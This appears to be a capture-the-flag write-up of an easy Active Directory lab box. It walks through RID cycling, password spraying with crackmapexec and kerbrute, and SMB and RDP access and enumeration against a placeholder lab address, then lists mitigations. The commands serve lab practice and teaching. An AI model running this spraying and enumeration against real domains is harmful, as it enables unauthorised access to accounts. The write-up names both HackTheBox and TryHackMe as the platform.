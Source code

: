 ```yaml
---
title: "HackTheBox: Soupedecode 01"
date: 2025-08-02
description: "Soupedecode 01 was a very simple Active Directory room. We began by enumerating a list of usernames via RID cycling and then performed password spraying."
categories: ["HackTheBox"]
tags: ["active-directory", "rid-cycling", "password-spraying", "windows", "enumeration"]
image: "/images/writeups/soupedecode-thumb.jpg"
difficulty: "Easy"
platform: "HackTheBox"
author: "Adithya Kallaje"
---
```


![Soupedecode Banner](/images/writeups/soupedecode-banner.jpg)

## Overview

Soupedecode 01 is an easy-difficulty Active Directory room that focuses on fundamental AD enumeration techniques including RID cycling and password spraying attacks.

## Initial Reconnaissance

### Network Scanning
```bash
nmap -sC -sV -p- 10.10.x.x
```

**Key Services:**
- 53/tcp - DNS
- 88/tcp - Kerberos
- 135/tcp - RPC
- 139/tcp - NetBIOS
- 389/tcp - LDAP
- 445/tcp - SMB
- 3389/tcp - RDP

### Domain Information
```bash
# Discover domain name
nslookup 10.10.x.x

# SMB enumeration
smbclient -L //10.10.x.x -N
```

## User Enumeration

### RID Cycling Attack

```bash
# Install impacket tools
git clone https://github.com/SecureAuthCorp/impacket.git

# Perform RID cycling
python3 lookupsid.py anonymous@10.10.x.x
```

**Discovered Users:**
- Administrator
- Guest
- DefaultAccount
- john.doe
- jane.smith
- service_account

### Alternative Enumeration Methods

```bash
# Using enum4linux
enum4linux -a 10.10.x.x

# Using rpcclient
rpcclient -U "" -N 10.10.x.x
rpcclient $> enumdomusers
```

## Password Spraying

### Common Password Lists
```bash
# Create password list
echo "Password123" > passwords.txt
echo "Welcome123" >> passwords.txt
echo "Admin123" >> passwords.txt
echo "password" >> passwords.txt
```

### Credential Spraying Attack

```bash
# Using crackmapexec
crackmapexec smb 10.10.x.x -u users.txt -p passwords.txt

# Using kerbrute
kerbrute passwordspray --dc 10.10.x.x -d domain.local users.txt "Password123"
```

### Successful Authentication

```bash
# Valid credentials found
Username: john.doe
Password: Welcome123
```

## Initial Access

### SMB Access
```bash
# Access SMB shares
smbclient //10.10.x.x/Users -U john.doe
```

### Remote Desktop
```bash
# RDP connection
xfreerdp /v:10.10.x.x /u:john.doe /p:Welcome123
```

## Post-Exploitation Enumeration

### Domain User Information
```bash
# Check current user privileges
net user john.doe /domain

# Enumerate domain groups
net group /domain

# Find domain admins
net group "Domain Admins" /domain
```

### Share Enumeration
```bash
# List accessible shares
smbmap -H 10.10.x.x -u john.doe -p Welcome123

# Access user directories
smbclient //10.10.x.x/Users -U john.doe
```

## Privilege Escalation

### Service Account Discovery
```bash
# Look for service accounts
Get-WmiObject -Class Win32_Service | Select Name, StartName

# Check for stored credentials
cmdkey /list
```

### Potential Attack Vectors
- **Kerberoasting**: Service accounts with SPNs
- **ASREPRoasting**: Users with "Do not require Kerberos preauthentication"
- **Privilege escalation**: Local admin rights

## Lessons Learned

### Attack Chain Summary
1. **Network Reconnaissance** → Identified AD environment
2. **RID Cycling** → Enumerated valid usernames
3. **Password Spraying** → Found weak credentials
4. **Initial Access** → SMB/RDP access gained
5. **Post-Exploitation** → Domain enumeration

### Security Implications
- **Weak Passwords**: Common passwords in enterprise environment
- **No Account Lockout**: Password spraying was not detected
- **Information Disclosure**: RID cycling revealed usernames

## Mitigation Strategies

1. **Strong Password Policy**
2. **Account Lockout Policies**
3. **Monitoring for RID cycling**
4. **Implement LAPS**
5. **Regular security audits**

## Tools Used

- Nmap
- Impacket (lookupsid.py)
- CrackMapExec
- Kerbrute
- enum4linux
- smbclient
- xfreerdp

---

**Difficulty**: Easy  
**Platform**: TryHackMe  
**Completion Date**: August 2, 2025
